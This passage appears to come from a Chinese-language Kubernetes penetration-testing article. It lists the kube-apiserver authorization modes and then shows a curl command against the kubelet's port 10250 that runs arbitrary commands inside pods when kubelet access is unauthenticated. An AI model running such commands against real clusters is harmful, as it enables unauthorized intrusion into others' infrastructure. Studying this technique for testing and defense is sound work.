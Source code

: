[![](assets/1698894613-af2072fdbbd899d501f80ab683df4f4e.png)](https://storage.tttang.com/media/attachment/2022/03/12/d4f3e444-9f3d-4158-bd86-84941c374119.png)

```bash
关于 authorization-mode 还有以下的配置
--authorization-mode=ABAC 基于属性的访问控制（ABAC）模式允许你 使用本地文件配置策略。
--authorization-mode=RBAC 基于角色的访问控制（RBAC）模式允许你使用 Kubernetes API 创建和存储策略。
--authorization-mode=Webhook WebHook 是一种 HTTP 回调模式，允许你使用远程 REST 端点管理鉴权。
--authorization-mode=Node 节点鉴权是一种特殊用途的鉴权模式，专门对 kubelet 发出的 API 请求执行鉴权。
--authorization-mode=AlwaysDeny 该标志阻止所有请求。仅将此标志用于测试。
--authorization-mode=AlwaysAllow 此标志允许所有请求。仅在你不需要 API 请求 的鉴权时才使用此标志。
```

在我们发现 kubelet 未授权后，可以进行以下操作拿到入口点

#### [执行 Pod 内命令](#toc_pod)

如果有 kubelet 未授权，那就可以用以下命令在 Pod 内执行命令

```bash
curl -XPOST -k https://node_ip:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=command"
```

其中的参数可以从 https://node\_ip:10250/pods 中获取
